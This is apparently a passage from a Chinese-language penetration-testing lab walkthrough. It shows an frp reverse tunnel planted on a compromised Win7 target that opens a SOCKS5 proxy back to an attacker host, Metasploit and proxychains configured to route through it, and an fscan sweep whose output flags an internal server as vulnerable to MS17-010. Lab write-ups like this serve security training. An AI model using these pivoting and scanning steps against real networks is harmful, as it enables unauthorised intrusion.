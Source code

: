 服务端启动

```bash
systemctl start frps
./frps -c ./frps.ini
```

向win7靶机上传`frpc.exe`和`frpc.ini`

```ini
[common]
server_addr = 192.168.170.91
server_port = 7000
token = 192408

[target1]
type = tcp
remote_port = 1234
plugin = socks5
```

```cmd
start /b frpc.exe
.\frpc.exe -c .\frpc.ini
```

设置`msf`全局代理

```
setg Proxies socks5:192.168.170.91:1234
```

编辑`kali`的`vim /etc/proxychains4.conf`加上

```
socks5 192.168.170.91 1234
```

#### 利用fscan扫描

```bash
┌──(root㉿kali)-[~]
└─# ./fscan -socks5 socks5://192.168.170.91:1234 -h 192.168.52.138

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
Socks5Proxy: socks5://192.168.170.91:1234
start infoscan
192.168.52.138:80 open
192.168.52.138:135 open
192.168.52.138:88 open
192.168.52.138:139 open
192.168.52.138:445 open
[*] alive ports len is: 5
start vulscan
[*] NetInfo 
[*]192.168.52.138
   [->]owa
   [->]192.168.52.138
[+] MS17-010 192.168.52.138     (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] WebTitle http://192.168.52.138     code:200 len:689    title:IIS7
已完成 5/5
[*] 扫描结束,耗时: 27.344077356s
```

